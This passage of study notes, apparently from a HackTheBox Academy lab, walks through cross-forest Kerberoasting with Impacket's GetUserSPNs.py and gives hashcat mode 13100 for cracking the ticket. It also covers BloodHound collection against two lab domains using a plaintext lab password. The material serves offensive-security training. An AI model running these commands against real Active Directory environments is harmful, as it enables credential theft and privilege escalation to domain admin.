    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    Password:
    ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
    -----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
    MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never> 


if we add the -request flag we can get the TGS Ticket. 

.. note:: adding the -outputfile <filename> allows a file to take the output.

.. code-block:: bash

    Temen@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  

    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    Password:
    ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
    -----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
    MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               


    $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>

The ticket can be cracked with mode 13100 

Using Bloodhound from Linux
==============================

Step 1:  Add the nameserver to resolv.conf 

.. code-block:: console

    Temen@htb[/htb]$ cat /etc/resolv.conf 

    # Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
    #     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
    # 127.0.0.53 is the systemd-resolved stub resolver.
    # run "resolvectl status" to see details about the actual nameservers.

    #nameserver 1.1.1.1
    #nameserver 8.8.8.8
    domain INLANEFREIGHT.LOCAL
    nameserver 172.16.5.5

Step 2: Run :ref:`bloodhound.py` 

.. code-block:: bash 

    Temen@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

    INFO: Found AD domain: inlanefreight.local
    INFO: Connecting to LDAP server: ACADEMY-EA-DC01
    INFO: Found 1 domains
    INFO: Found 2 domains in the forest
    INFO: Found 559 computers
    INFO: Connecting to LDAP server: ACADEMY-EA-DC01
    INFO: Found 2950 users
    INFO: Connecting to GC LDAP server: ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL
    INFO: Found 183 groups
    INFO: Found 2 trusts

compress and zip the output 

.. code-block:: bash

    Temen@htb[/htb]$ zip -r ilfreight_bh.zip *.json

    adding: 20220329140127_computers.json (deflated 99%)
    adding: 20220329140127_domains.json (deflated 82%)
    adding: 20220329140127_groups.json (deflated 97%)
    adding: 20220329140127_users.json (deflated 98%)

Step 3:  Repeat the process for the freightlogistics.local domain 

.. code-block:: console 

    Temen@htb[/htb]$ cat /etc/resolv.conf 

    # Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
    #     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
    # 127.0.0.53 is the systemd-resolved stub resolver.
    # run "resolvectl status" to see details about the actual nameservers.

    #nameserver 1.1.1.1
    #nameserver 8.8.8.8
    domain FREIGHTLOGISTICS.LOCAL
    nameserver 172.16.5.238


And run :ref:`bloodhound.py` 

.. code-block:: bash 

    Temen@htb[/htb]$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2

    INFO: Found AD domain: freightlogistics.local
    INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 5 computers
    INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
    INFO: Found 9 users
    INFO: Connecting to GC LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
    INFO: Found 52 groups
    INFO: Found 1 trusts
    INFO: Starting computer enumeration with 10 workers


Zip up this output as well and upload it to Bloodhound. 

Viewing Dangerous Rights through BloodHound
================================================

.. image:: ../../img/foreign_membership.png



References 
**************

HackTheBox:         https://academy.hackthebox.com/module/143/section/1488

sidHistory:         https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory

Golden Ticket:      https://attack.mitre.org/techniques/T1558/001/

SID Filtering:      https://www.serverbrain.org/active-directory-2008/sid-history-and-sid-filtering.html
